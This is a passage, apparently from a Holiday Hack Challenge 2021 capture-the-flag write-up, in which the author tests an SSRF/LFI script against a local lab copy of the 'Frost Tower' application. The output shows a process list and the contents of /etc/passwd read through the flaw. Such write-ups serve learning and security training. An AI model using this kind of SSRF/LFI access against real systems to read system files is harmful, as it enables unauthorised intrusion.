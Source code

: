 ![Frost Tower, reverse engineered](img/hhc-2021-19.png)

And, we can verify the application's SSRF/LFI vulnerability still works in our
local version:

``` shell-session
$ python3 apply-ssrf.py --url http://10.114.180.112:8888/
ssrf> ps
UID       PID PPID CMD
root        1    0 /usr/bin/python2 /usr/bin/supervisord -c /etc/supervisor/conf.d/supervisord.conf
root        8    1 /bin/sh /opt/gonginx.sh
root        9    1 php-fpm: master process (/etc/php7/php-fpm.conf)
root       10    1 /bin/sh /opt/imds/imds.sh
root       22   10 /opt/imds/ec2-metadata -c /opt/imds/config.json
root       24   10 /opt/imds/ec2-metadata -c /opt/imds/config.json
root       25   10 /opt/imds/ec2-metadata -c /opt/imds/config.json
root       26   10 /opt/imds/ec2-metadata -c /opt/imds/config.json
root       27   10 /opt/imds/ec2-metadata -c /opt/imds/config.json
root       28    8 nginx: master process nginx -g daemon off;
root       29   10 /opt/imds/ec2-metadata -c /opt/imds/config.json
nginx      30   28 nginx: worker process
nobody     31    9 php-fpm: pool www
nobody     32    9 php-fpm: pool www

ssrf> /etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
...

ssrf>
```
